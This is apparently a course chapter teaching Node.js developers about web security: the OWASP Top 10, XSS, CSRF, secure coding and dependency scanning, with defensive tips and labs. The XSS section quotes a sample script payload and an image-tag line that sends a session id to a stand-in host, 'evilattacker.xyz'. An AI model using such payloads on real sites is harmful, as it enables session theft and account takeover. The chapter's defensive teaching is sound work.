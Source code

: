 # Web Service Security

We are going to focus on security related topic in this section. The target is to get familiar with common vulnerabilities that may be exposed by web services and how to avoid them.

## OWASP Top 10 Vulnerabilities

The Open Web Application Security Project \(OWASP\) is a non-profit organization dedicated to providing unbiased, practical information about application security. The [OWASP Top 10 Web Application Security Risks](https://www.owasp.org/index.php/Category:OWASP_Top_Ten_Project) was updated in 2017 to provide guidance to developers and security professionals on the most critical vulnerabilities that are commonly found in web applications, which are also easy to exploit. These 10 application risks are dangerous because they may allow attackers to plant malware, steal data, or completely take over your computers or web servers.

For those who are new to security issues, they may find it hard to interpret those issues. Luckily there is a project called [Damn Vulnerable NodeJS Application](https://appsecco.com/books/dvna-developers-security-guide/intro.html) which demonstrates some of the security issues. It actually demonstrates the top 10 issues identified in year 2013, which is a bit different from the list in 2017. Nevertheless, it's still a good tool to learn about those security issues. \(Note: to play with this node application, you need to install [docker](https://www.docker.com/) on your computer.\)

Another website to learn OWASP Top 10 vulnerabilities is called [OWASP Juice Shop](https://github.com/bkimminich/juice-shop), which is an intentionally insecure webapp for security trainings written entirely in Javascript which encompasses the entire OWASP Top Ten and other severe security flaws.

Out of those top 10 vulnerabilities, XSS and CSRF are very famous and worth more discussion.

### XSS \(Cross Site Scripting\)

Cross-site scripting, abbreviated to “XSS”, is a way attackers can take over webpages. The goal of an XSS attack is to gain control of JavaScript in the victim’s browser. Once a hacker has done that, there’s a lot of nasty stuff they can do: log your actions, impersonate you, steal your authentication cookies, and much more.

Here is an example of XSS Attack.

Assume you are filling in a form on some website. Let's say it's something innocuous like the quantity field on an order form or a comment on a comment form.

As a hacker, you can try to paste `<script>alert("haha")</script>` into the form in your system that will be viewable to someone else.

Now, what happens when the administrator views your latest orders? Basically, that javascript is now operating in the security context of the administrator. It could do something worse than alert\(\)... for example, it could grab his session token or a cookie's secret value \(depending on the cookie\) and send it off to `<img src=evilattacker.xyz/clear.gif?sid=xxxx>`, and \(assuming you control that `evilattacker.xyz` website\) now you can get those session cookies or tokens and you can login to the system as the administrator.

This is just one way to launch XSS attack. There are many variants. You can find more examples and details from the references:

- [XSS Tutorial](https://hackertarget.com/xss-tutorial/)
- [Veracode: XSS](https://www.veracode.com/security/xss)
- [OWASP: Cross-site Scripting](https://www.owasp.org/index.php/Cross-site_Scripting_%28XSS%29)
- [Cross-site scripting for dummies](https://hackernoon.com/cross-site-scripting-for-dummies-be30f76fad09)
- [XSS Explained](https://www.securesolutions.no/xss-explained/)

How can we prevent from this kind of attack?

OWASP provided a [XSS \(Cross Site Scripting\) Prevention Cheat Sheet](https://www.owasp.org/index.php/XSS_%28Cross_Site_Scripting%29_Prevention_Cheat_Sheet)

Here are a few quick tips for developers:

- Make sure you always validate and escape the data submitted by the user, and do some sanitization on the user input data when you need to display them \(i.e. display the user input data as pure text, instead of loading that as javascript code\). For this purpose, you can use libraries like [xss-filter](https://github.com/yahoo/xss-filters)
- Use tools like [helmet](https://helmetjs.github.io/docs/xss-filter/) to set `X-XSS-Protection` header in HTTP response, so that the browser can do some basic detection on XSS attack.
- Another trick is to use [Http-Only Cookie](https://www.owasp.org/index.php/HttpOnly) so that session cookies cannot be accessed from Javascript.
- If you need to store some information into the storage space in browser, use `session storage` instead of `local storage` if you don't need that information after the browser tab is closed.

As a user, you can protect yourself by using some browser side security features. Chrome and Safari has a built-in feature called [XSS Auditor](https://www.virtuesecurity.com/blog/understanding-xss-auditor/) that tires to mitigate XSS attacks although it can’t catch all possible XSS variants.

### CSRF \(Cross Site Request Forgery\)

Cross-site request forgery also known as single-click attack or session traversing, in which a malicious website will throw a request to a web application that the user is already authenticated against from a different website. This way an attacker can access functionality in a targeted web application via the victim’s already authenticated browser.

Imagine the following case: A User is logged into GMail and checks his mails. After she stays logged in for a while - that's a regular behavior - the user opens a new Tab and navigates to another site. This site contains code that fires a regular HTTP Request to the GMail servers - an image tag is enough to do so. Since the user is still logged in, the request is processed with her privileges - maybe changes some settings or deletes some mails, thanks to the fact that HTTP is stateless - that's it. The attack has been performed successfully and neither the user nor GMail haven't even noticed.

[Here is another example](https://youtu.be/hW2ONyxAySY), watch the first 8 minutes of this video.

How can we prevent from this kind of attack?

One of the idea is called [CSRF Token](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_%28CSRF%29_Prevention_Cheat_Sheet#Synchronizer_.28CSRF.29_Tokens), which validate user requests with a unique token that can only come from the genuine user session.

For Express.js based applications, you can generate CSRF tokens with a middleware called [csurf](https://github.com/expressjs/csurf).

As an end user, you can protect yourself against this attack using Firefox extension called [NoScript](https://noscript.net/) or Chrome plugin [uMatrix](https://github.com/gorhill/uMatrix) or [uBLock](https://github.com/gorhill/uBlock).

To get more details on CSRF attack, here are a few more articles:

- [Understanding CSRF](https://github.com/pillarjs/understanding-csrf)
- [Understanding the CSRF Vulnerability \(A Beginner Guide\)](http://www.hackingarticles.in/understanding-csrf-vulnerability-beginner-guide/)
- [CSRF DEMYSTIFIED](http://www.gnucitizen.org/blog/csrf-demystified/)
- [Wikipedia entry on CSRF](https://en.wikipedia.org/wiki/Cross-site_request_forgery)

## Follow Secure Coding Practices

As a developer, you need to be aware of the common security concerns and follow best practices when you write code.

Here are some of the guidelines:

- [Mozilla Secure Coding Guidelines](https://wiki.mozilla.org/WebAppSec/Secure_Coding_Guidelines)
- [OWASP Secure Coding Cheat Sheet](https://www.owasp.org/index.php/Secure_Coding_Cheat_Sheet)
- [JavaScript Web Application Secure Coding Practices](https://checkmarx.gitbooks.io/js-scp/)

You can also make use tools that automatically scan your code for potential security issues:

- [ESLint Plugin To Detect Possible Security Issues in Codes](https://www.npmjs.com/package/eslint-plugin-security)

## Make sure your NPM dependencies are secure

When you develop Javascript based applications, you would have a lot of dependencies on 3rd party modules. How can you be confident that those dependencies do not have known vulnerabilities? Remember, using components with known vulnerabilities" is a part of the OWASP Top 10 and insecure libraries can pose a huge risk for your web app.

What are the vulnerabilities are we talking about? You can get some examples [here](https://snyk.io/vuln?packageManager=npm)

The tools below can scan the libraries you use and detect those with vulnerabilities

- [Snyk](https://snyk.io/)
- [Node Security Platform \(a.k.a NSP\)](https://nodesecurity.io/)
- [Retire.js](https://retirejs.github.io/retire.js/)

You should regularly review your dependencies. Avoid the unnecessary ones and make the rest up-to-date. To ensure your dependencies are up-to-date, you can use tools like [greenkeeper](https://greenkeeper.io/)

Here are a few articles to give you more tips on how to manage the risks from 3rd party libraries:

- [Controlling the Node.js security risk of npm dependencies](https://blog.risingstack.com/controlling-node-js-security-risk-npm-dependencies/) is a good article talking about the process to reduce the security risks from 3rd party dependencies.
- [Quick Introduction on GreenKeeper/Snyk/NSP/Retire.js](https://developers.redhat.com/blog/2017/04/12/using-snyk-nsp-and-retire-js-to-identify-and-fix-vulnerable-dependencies-in-your-node-js-applications/)
- [Eliminating Known Vulnerabilities With Snyk](https://www.smashingmagazine.com/2016/01/eliminating-known-security-vulnerabilities-with-snyk/)

## Labs

### Learn how to use Helmet

Follow this tutorial to learn about how to use Helmet: [https://www.twilio.com/blog/2017/11/securing-your-express-app.html](https://www.twilio.com/blog/2017/11/securing-your-express-app.html)

### Learn how to use csurf to prevent CSRF attack

Follow this tutorial to learn about how to use csurf: [https://www.twilio.com/blog/2017/11/securing-your-express-app.html](https://www.twilio.com/blog/2017/11/securing-your-express-app.html)

### Try to Fix OWASP Top 10 Vulnerabilities

Follow the guide to learn the TOP10 OWASP vulnerabilities

- [OWASP NodeGoat](https://github.com/OWASP/NodeGoat)
- [OWASP Juice Shop](https://github.com/bkimminich/juice-shop)
- [Damn Vulnerable NodeJS Application](https://appsecco.com/books/dvna-developers-security-guide/intro.html)

## Resources

### More Labs

- [HacksExplaining](https://www.hacksplaining.com/lessons)

### Recommended Readings

- [Node JS Security Tips](https://blog.risingstack.com/node-js-security-tips/)
- [Express Security Best Practices](https://expressjs.com/en/advanced/best-practice-security.html)
- [9 Security Practice to Keep Express from Getting Pwned](https://nodesource.com/blog/nine-security-tips-to-keep-express-from-getting-pwned/)
- [Secure Express App with various HTTP headers](https://github.com/helmetjs/helmet)
- [Writing Secure Express.js Apps](https://blog.liftsecurity.io/2012/12/07/writing-secure-express-js-apps)
- [Building Secure Javascript Apps](https://nemethgergely.com/building-secure-javascript-applications/)
- [Simple Steps to Secure Your Express Node Application](http://scottksmith.com/blog/2014/09/04/simple-steps-to-secure-your-express-node-application/)
- [Awesome Node.js Security resources](https://github.com/lirantal/awesome-nodejs-security)
